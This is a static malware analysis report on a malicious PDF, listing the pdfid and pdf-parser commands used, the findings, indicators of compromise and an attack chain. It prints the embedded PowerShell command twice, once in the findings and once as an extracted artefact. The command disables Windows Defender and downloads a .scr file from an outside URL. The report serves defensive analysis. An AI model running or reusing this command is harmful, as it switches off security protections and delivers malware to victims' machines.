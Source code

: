 ## Final Report: Static Analysis of PDF File

### Original Request
The task was to perform a comprehensive static analysis of a PDF file to identify any signs of malicious activity, suspicious content, embedded threats, and potential security vulnerabilities using whitelisted shell commands.

### Commands Executed and Key Outputs

1. **Initial Keyword Scan:**
   - **Command:** `python3 pdfid.py 87c740d2b7c22f9ccabbdef412443d166733d4d925da0e8d6e5b310ccfc89e13.pdf`
   - **Output:** Non-zero counts for `/OpenAction`, `/Launch`, indicating potential automatic actions and execution of external commands.

2. **Inspecting Object 4 (OpenAction):**
   - **Command:** `python3 pdf-parser.py -f -O -c -o 4 87c740d2b7c22f9ccabbdef412443d166733d4d925da0e8d6e5b310ccfc89e13.pdf`
   - **Output:** Object 4 contains a `/Launch` action referencing object 7.

3. **Inspecting Object 7 (Launch Action Details):**
   - **Command:** `python3 pdf-parser.py -f -O -o 7 87c740d2b7c22f9ccabbdef412443d166733d4d925da0e8d6e5b310ccfc89e13.pdf`
   - **Output:** Revealed a PowerShell command to disable Windows Defender and download a file from a suspicious URL.

### Detailed Findings

1. **Launch Action with Malicious Intent:**
   - **Description:** Object 4 contains a `/Launch` action that executes a PowerShell command.
   - **Source:** Output of `pdf-parser.py -f -O -c -o 4`.
   - **Details:** The command disables Windows Defender real-time protection and downloads a file from `https://badreddine67.000webhostapp.com/Theme_Smart.scr`.
   - **Reasoning:** The use of PowerShell to disable security features and download a file is a common tactic in malware delivery.
   - **Severity Score:** Critical.

2. **PowerShell Command:**
   - **Description:** The command executed by the `/Launch` action.
   - **Source:** Output of `pdf-parser.py -f -O -o 7`.
   - **Details:** `powershell -Command "Set-MpPreference -DisableRealTimeMonitoring $true (New-Object Net.WebClient).DownloadFile('https://badreddine67.000webhostapp.com/Theme_Smart.scr','Theme_Smart.scr')"`
   - **Reasoning:** This command disables Windows Defender and downloads a potentially malicious file, indicating a high likelihood of malicious intent.
   - **Severity Score:** Critical.

### Identified Indicators of Compromise (IoCs)

- **URL:** `https://badreddine67.000webhostapp.com/Theme_Smart.scr`
- **File Name:** `Theme_Smart.scr`

### Potential Attack Chain

1. **User opens the PDF file.**
2. **PDF triggers an `/OpenAction` that references a `/Launch` action.**
3. **The `/Launch` action executes a PowerShell command.**
4. **PowerShell command disables Windows Defender real-time protection.**
5. **Downloads and potentially executes a file from a malicious URL.**

### Obfuscation/Evasion Techniques Observed

- **Use of PowerShell:** A common method to bypass traditional security measures and execute commands directly on the system.

### Overall Threat Assessment

- **Verdict:** Malicious
- **Confidence Score:** 100%

### Executive Summary

The PDF file analyzed contains a critical security threat. It uses a `/Launch` action to execute a PowerShell command that disables Windows Defender and downloads a potentially malicious file from a suspicious URL. This behavior is indicative of a malware delivery mechanism, and the file should be considered highly dangerous. Immediate action is recommended to block the associated URL and prevent execution of the downloaded file.

### Commands Executed

1. `python3 pdfid.py 87c740d2b7c22f9ccabbdef412443d166733d4d925da0e8d6e5b310ccfc89e13.pdf`
2. `python3 pdf-parser.py -f -O -c -o 4 87c740d2b7c22f9ccabbdef412443d166733d4d925da0e8d6e5b310ccfc89e13.pdf`
3. `python3 pdf-parser.py -f -O -o 7 87c740d2b7c22f9ccabbdef412443d166733d4d925da0e8d6e5b310ccfc89e13.pdf`

This concludes the static analysis of the PDF file. The findings indicate a high risk of malicious activity, and appropriate security measures should be taken.
### Decoded / Extracted Code Artefacts

---- CODE_BLOCK:7/0 ----
powershell -Command "Set-MpPreference -DisableRealTimeMonitoring $true (New-Object Net.WebClient).DownloadFile('https://badreddine67.000webhostapp.com/Theme_Smart.scr','Theme_Smart.scr')"
